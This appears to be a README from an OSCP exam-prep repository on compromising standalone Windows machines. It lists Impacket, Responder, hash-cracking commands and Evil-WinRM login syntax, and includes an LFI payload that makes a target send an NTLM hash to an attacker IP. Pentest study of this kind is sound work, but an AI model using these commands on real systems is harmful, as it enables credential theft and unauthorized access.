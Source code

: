 # Windows Resources 
Use this folder for compromising a standalone Windows box. For domain compromising, see [Active_Directory](https://github.com/Scr1ptK1ddie/OSCPprep/tree/main/ActiveDirectory) folder.   

[Windows Reverse Shells](https://github.com/Scr1ptK1ddie/OSCPprep/blob/main/Windows/Windows_Reverse_Shells.md)  

[Windows Privilege Escalation](https://github.com/Scr1ptK1ddie/OSCPprep/blob/main/Windows/Windows_Priv_Esc.md) 


## Tools
### Impacket 
https://github.com/SecureAuthCorp/impacket

    apt install impacket-scripts

Local Locations:

    /usr/share/doc/python3-impacket/examples   
    
### Responder (not allowed on the OSCP exam, but a common pen testing tool)   
Allows you to spoof various services then capture hashes from devices that try to authenticate to those.  
Install:   

    git clone https://github.com/lgandx/Responder   
 Usage:   

     sudo responder.py -I eth0   #start on specified interface. Hashes will be captured when a device tries to authenticate to resources on the network.               
    
You might be able to use a LFI vulnerability to request a resource and capture a hash using Responder. Ex - http://site.com/?page=//10.10.14.25/somefile           
Captured hashes will be stored in the logs folder, in a .txt file named for the protcol-hash type- and IP captured from.     
Crack Hashes from responder:     

    john hashes.txt   #John the Ripper willa utomatically detect the format of hashes collected by Responder.    
    hashcat -m 5500   #NTLMv1 (hashes captured from using a tool like Responder)     
    hashcat -m 5600   #NTLMv2 (hashes captured from using a tool like Responder)   
    
### Evil-WinRM
Access port 5985. Use with a username / password or username / hash. $ evil-winrm -u Administrator -p password -i 10.10.10.10    
